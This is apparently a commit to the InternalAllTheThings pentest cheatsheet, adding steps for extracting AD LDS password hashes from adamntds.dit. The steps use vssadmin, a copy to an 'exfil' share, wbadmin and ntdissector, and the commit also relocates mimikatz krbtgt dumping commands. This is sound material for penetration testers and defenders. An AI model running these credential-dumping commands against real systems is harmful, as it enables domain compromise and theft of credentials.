

Before and after one commit to swisskyrepo/InternalAllTheThings, an MkDocs documentation site: the page built from docs/active-directory/ad-adds-ntds-dumping.md, in a window 1280 px wide and 1400 px high, scrolled down 1791 px. Shown: the whole window at 82% size. Built offline with MkDocs 1.6.1 and Material for MkDocs 9.7.7, drawn with Linux system fonts in a browser that asks for light colours; emoji names are drawn with the system emoji font; comment, search, counter and statistics services are not loaded; some of the changed text lies outside the part shown.

Commit message:
AD LDS - adamntds.dit

````diff
--- a/README.md
+++ b/README.md
@@ -1,4 +1,4 @@
-# InternalAllTheThings
+# Internal All The Things
 
 Active Directory and Internal Pentest Cheatsheets
 
--- a/docs/README.md
+++ b/docs/README.md
@@ -1,4 +1,4 @@
-# InternalAllTheThings
+# Internal All The Things
 
 Active Directory and Internal Pentest Cheatsheets
 
--- a/docs/active-directory/ad-adds-ntds-dumping.md
+++ b/docs/active-directory/ad-adds-ntds-dumping.md
@@ -72,15 +72,28 @@
 * `-user-status`: Display whether or not the user is disabled.
 
 
-## Using Mimikatz sekurlsa
+## Extract hashes from adamntds.dit
 
-Dumps credential data in an Active Directory domain when run on a Domain Controller.
-:warning: Requires administrator access with debug or Local SYSTEM rights
+In AD LDS stores the data inside a dit file located at `C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit`.
 
-```powershell
-sekurlsa::krbtgt
-lsadump::lsa /inject /name:krbtgt
-```
+* Dump adamntds.dit with Shadow copy using `vssadmin.exe`
+    ```ps1
+    vssadmin.exe create shadow /For=C:
+    cp "\\?\GLOBALROOT\Device\HarddiskVolumeShadowCopyX\Program files\Microsoft ADAM\instance1\data\adamntds.dit" \\exfil\data\adamntds.dit
+    ```
+
+* Dump adamntds.dit with Windows Server Backup using `wbadmin.exe`
+    ```ps1
+    wbadmin.exe start backup -backupTarget:e: -vssCopy -include:"C:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit"
+    wbadmin.exe start recovery -version:08/04/2023-12:59 -items:"c:\Program Files\Microsoft ADAM\instance1\data\adamntds.dit" -itemType:File -recoveryTarget:C:\Users\Administrator\Desktop\ -backupTarget:e:
+    ```
+
+* Extract hashes with [synacktiv/ntdissector](https://github.com/synacktiv/ntdissector)
+    ```ps1
+    ntdissector path/to/adamntds.dit
+    python ntdissector/tools/user_to_secretsdump.py path/to/output/*.json
+    ```
+
 
 ## Crack NTLM hashes with hashcat
 
@@ -90,7 +103,7 @@
 - [Rockyou.txt](https://weakpass.com/wordlist/90)
 - [Have I Been Pwned founds](https://hashmob.net/hashlists/info/4169-Have%20I%20been%20Pwned%20V8%20(NTLM))
 - [Weakpass.com](https://weakpass.com/)
-- Read More at [Methodology and Resources/Hash Cracking.md](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Hash%20Cracking.md)
+- Read More at [Methodology and Resources/Hash Cracking.md](https://swisskyrepo.github.io/InternalAllTheThings/cheatsheets/hash-cracking/)
 
 ```powershell
 # Basic wordlist
@@ -125,7 +138,21 @@
 The password retrieval is already handled by [SecureAuthCorp/secretsdump.py](https://github.com/SecureAuthCorp/impacket/blob/master/examples/secretsdump.py) and mimikatz, it will be displayed as CLEARTEXT.
 
 
+## Extract hashes from memory
+
+Dumps credential data in an Active Directory domain when run on a Domain Controller.
+
+:warning: Requires administrator access with debug privilege or NT-AUTHORITY\SYSTEM account.
+
+```powershell
+mimikatz> privilege::debug
+mimikatz> sekurlsa::krbtgt
+mimikatz> lsadump::lsa /inject /name:krbtgt
+```
+
+
 ## References
 
-* [DiskShadow The return of VSS Evasion Persistence and AD DB extraction](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
-* [Dumping Domain Password Hashes - Pentestlab](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
+* [Diskshadow The Return Of VSS Evasion Persistence And AD Db Extraction - bohops - March 26, 2018](https://bohops.com/2018/03/26/diskshadow-the-return-of-vss-evasion-persistence-and-active-directory-database-extraction/)
+* [Dumping Domain Password Hashes - Pentestlab - July 4, 2018](https://pentestlab.blog/2018/07/04/dumping-domain-password-hashes/)
+* [Using Ntdissector To Extract Secrets From Adam Ntds Files - Julien Legras, Mehdi Elyassa - 06/12/2023](https://www.synacktiv.com/publications/using-ntdissector-to-extract-secrets-from-adam-ntds-files)
````
Also changed, not shown: docs/active-directory/internal-shares.md (+1 -1 lines).
